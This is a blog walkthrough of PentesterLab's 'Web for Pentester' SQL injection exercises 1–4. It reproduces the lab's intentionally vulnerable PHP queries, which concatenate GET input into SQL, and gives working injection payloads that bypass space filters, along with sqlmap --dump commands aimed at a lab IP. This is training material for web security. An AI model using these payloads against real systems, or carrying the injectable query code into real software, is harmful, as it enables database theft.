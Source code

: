 ```yaml
---
layout: post
title: "PentesterLab -- Web for Pentester - SQL Injection"
date: 2016-02-20 22:14:10
comments: true
categories: [pentesterlab, sql injection, web pentest]
---
```


Web for Pentester:
    This exercise is a set of the most common web vulnerability 

Difficluty: 1/5

###Example 1   

code review:
```php example1.php
<?php

  require_once('../header.php');
  require_once('db.php');
	$sql = "SELECT * FROM users where name='";
	$sql .= $_GET["name"]."'";	
	$result = mysql_query($sql);
	if ($result) {
		?>
		<table class='table table-striped'>
      <tr><th>id</th><th>name</th><th>age</th></tr>
		<?php
		while ($row = mysql_fetch_assoc($result)) {
			echo "<tr>";
    			echo "<td>".$row['id']."</td>";
    			echo "<td>".$row['name']."</td>";
    			echo "<td>".$row['age']."</td>";
			echo "</tr>";
		}	
		echo "</table>";
	}
  require_once '../footer.php';
?>

```

There is a vulnerability due to no input validation on parameter $_GET[“name”], so I can hack it directly by injecting `' or  1=1 #`. After injection, $sql now is `SELECT * FROM users where name=''  or  1=1 #`. This sql injection will pull all items in the table users.

Manually exploit (encode root' or 1=1#):

`http://192.168.79.162/sqli/example1.php?name=root%27%20or%201%3D1%23`


{% img  /images/blog/pentesterlab/web_for_pentester/sql/web_pentester_lab_sql1_manual.JPG   [title manually exploit [alt text]] %}

sqlmap exploit:

`sqlmap -u "http://192.168.79.162/sqli/example1.php?name=root"  --dump`


{% img  /images/blog/pentesterlab/web_for_pentester/sql/web_pentester_lab_sql1_sqlmap.JPG   [title sqlmap exploit [alt text]] %}   





###Example 2

code review:

```php example2.php
<?php
  require_once('../header.php');
  require_once('db.php');

	if (preg_match('/ /', $_GET["name"])) {
		die("ERROR NO SPACE");	
	}
	$sql = "SELECT * FROM users where name='";
	$sql .= $_GET["name"]."'";

	$result = mysql_query($sql);
	if ($result) {
		?>
		<table class='table table-striped'>
      <tr><th>id</th><th>name</th><th>age</th></tr>
		<?php
		while ($row = mysql_fetch_assoc($result)) {
			echo "<tr>";
    			echo "<td>".$row['id']."</td>";
    			echo "<td>".$row['name']."</td>";
    			echo "<td>".$row['age']."</td>";
			echo "</tr>";
		}	
		echo "</table>";
	}
  require '../footer.php';
?>

```

The author filtered the space in the user input. It prevents us from using the  ` '  or  1=1  #`. However, this filtering is easily bypassed, using tabulation (HT or \t) or comment /**/


Manually exploit (encode '/\*\*/or/\*\*/1=1/\*\*/#):

`http://192.168.79.162/sqli/example2.php?name=root%27%2f%2a%2a%2for%2f%2a%2a%2f1%3D1%2f%2a%2a%2f%23`


{% img  /images/blog/pentesterlab/web_for_pentester/sql/web_pentester_lab_sql2_manual.JPG   [title manually exploit [alt text]] %}

sqlmap exploit:

`sqlmap -u "http://192.168.79.162/sqli/example2.php?name=root" --dump --tamper=space2comment`

space2comment.py --- Replaces space character (' ') with comments '/**/'


{% img  /images/blog/pentesterlab/web_for_pentester/sql/web_pentester_lab_sql2_sqlmap.JPG   [title sqlmap exploit [alt text]] %} 




###Example 3

code review:

```php example3.php
<?php
    require_once('../header.php');
  require_once('db.php');
	if (preg_match('/\s+/', $_GET["name"])) {
		die("ERROR NO SPACE");	
	}
	$sql = "SELECT * FROM users where name='";
	$sql .= $_GET["name"]."'";

	$result = mysql_query($sql);
	if ($result) {
		?>
		<table class='table table-striped'>
      <tr><th>id</th><th>name</th><th>age</th></tr>
		<?php
		while ($row = mysql_fetch_assoc($result)) {
			echo "<tr>";
    			echo "<td>".$row['id']."</td>";
    			echo "<td>".$row['name']."</td>";
    			echo "<td>".$row['age']."</td>";
			echo "</tr>";
		}	
		echo "</table>";
	}
    require '../footer.php';
?>

```

The author filtered the spaces and tabulations in the user input. It prevents us from using the  ` '  or  1=1  #`. However, this filtering is easily bypassed, using comment /**/

Manually exploit (encode '/\*\*/or/\*\*/1=1/\*\*/#):

`http://192.168.79.162/sqli/example3.php?name=root%27%2f%2a%2a%2for%2f%2a%2a%2f1%3D1%2f%2a%2a%2f%23`


{% img  /images/blog/pentesterlab/web_for_pentester/sql/web_pentester_lab_sql3_manual.JPG   [title manually exploit [alt text]] %}

sqlmap exploit:

`sqlmap -u "http://192.168.79.162/sqli/example3.php?name=root" --dump --tamper=space2comment`

space2comment.py --- Replaces space character (' ') with comments '/**/'


{% img  /images/blog/pentesterlab/web_for_pentester/sql/web_pentester_lab_sql3_sqlmap.JPG   [title sqlmap exploit [alt text]] %} 




###Example 4

code review:

```php example4.php
<?php
  require_once('../header.php');
  require_once('db.php');
  $sql="SELECT * FROM users where id=";
	$sql.=mysql_real_escape_string($_GET["id"])." ";
	$result = mysql_query($sql);
	

	if ($result) {
		?>
		<table class='table table-striped'>
      <tr><th>id</th><th>name</th><th>age</th></tr>

		<?php
		while ($row = mysql_fetch_assoc($result)) {
			echo "<tr>";
    			echo "<td>".$row['id']."</td>";
    			echo "<td>".$row['name']."</td>";
    			echo "<td>".$row['age']."</td>";
			echo "</tr>";
		}	
		echo "</table>";
	}
    require '../footer.php';
?>

```

The developer use mysql_real_escape_string function to filter space. However, it cannot prevent sql injection without single quote.

Manually exploit (encode id=2 or 1=1 )

`http://192.168.79.162/sqli/example4.php?id=2 or 1=1 `

{% img  /images/blog/pentesterlab/web_for_pentester/sql/web_pentester_lab_sql4_manual.JPG   [title manually exploit [alt text]] %}

sqlmap exploit

`sqlmap -u "http://192.168.79.162/sqli/example4.php?id=2" --dump`

{% img  /images/blog/pentesterlab/web_for_pentester/sql/web_pentester_lab_sql4_sqlmap.JPG   [title sqlmap exploit [alt text]] %} 

